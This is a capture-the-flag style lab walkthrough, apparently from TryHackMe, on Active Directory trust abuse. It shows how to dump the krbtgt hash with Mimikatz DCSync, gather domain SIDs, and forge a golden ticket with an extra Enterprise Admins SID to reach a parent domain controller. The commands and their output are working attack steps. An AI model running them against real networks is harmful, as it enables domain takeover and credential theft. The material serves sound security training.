 # Exploiting domain trusts

A forest, in Active Directory terms, consists of domain trees. Trusts define how domains in a forest can talk to 
one another. The main types of trusts are:

* Directional: Trust flows from one domain to another trusted domain
* Transitive: Trust flows between multiple trusted domains

## KRBTGT and Golden tickets

If an attacker compromises a domain controller and achieves full `SYSTEM` rights, it is possible to extract the 
hash of the `krbtgt` account. This would allow the attacker to create `TGS` tickets for any resources they choose.

In order to create golden tickets, the following must be known:

* FQDN of the domain
* SID of the domain
* Username to impersonate
* KRBTGT hash

The first three are usually easy to recover. The last one requires a domain compromise since the `KRBTGT` password 
hash is only stored on domain controllers.

### Dumping the KRBTGT hash

Use the RDP session on `THMSERVER2` to recover the KRBTGT password hash using Mimikatz with DC Sync:

```text
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /user:za\krbtgt
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server
[DC] 'za\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 4/25/2022 7:18:22 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: removed
    ntlm- 0: removed
    lm  - 0: removed
...
```

### Getting the SIDs

Recover two SIDs:

* The SID of the child domain controller (THMDC), to be impersonated in the forged TGT
* The SID of the Enterprise Admins in the parent domain, to be added as an extra SID to the forged TGT

Use the AD-RSAT Powershell cmdlets to recover the SID of the child domain controller:

```text
PS C:\> Get-ADComputer -Identity "THMDC"

DistinguishedName : CN=THMDC,OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DNSHostName       : THMDC.za.tryhackme.loc
Enabled           : True
Name              : THMDC
ObjectClass       : computer
ObjectGUID        : bd651750-782b-4b09-93b4-b5987ec7311b
SamAccountName    : THMDC$
SID               : S-1-5-21-3885271727-2693558621-2658995185-1001
UserPrincipalName :
```

Recover the SID of the Enterprise Admins group by querying the parent domain controller:

```text
PS C:\> Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc

DistinguishedName : CN=Enterprise Admins,CN=Users,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Universal
Name              : Enterprise Admins
ObjectClass       : group
ObjectGUID        : a23ae384-16e8-44d5-9b36-8173c4e0e5de
SamAccountName    : Enterprise Admins
SID               : S-1-5-21-3330634377-removed-519
```

## Exploiting domain trusts

Use Mimikatz to generate a golden ticket.

```text
mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:16f9af38fca3ada405386b3b57366082 /sids:S-1-5-21-3330634377-1326264276-632209373-519 /ptt
```

Try browsing the remote file system of `\\thmrootdc.tryhackme.loc\C$` (the UNC path to the `C$` share). The flag is 
on `THMROOTDC` in the Administrator's Desktop folder (flag6.txt).



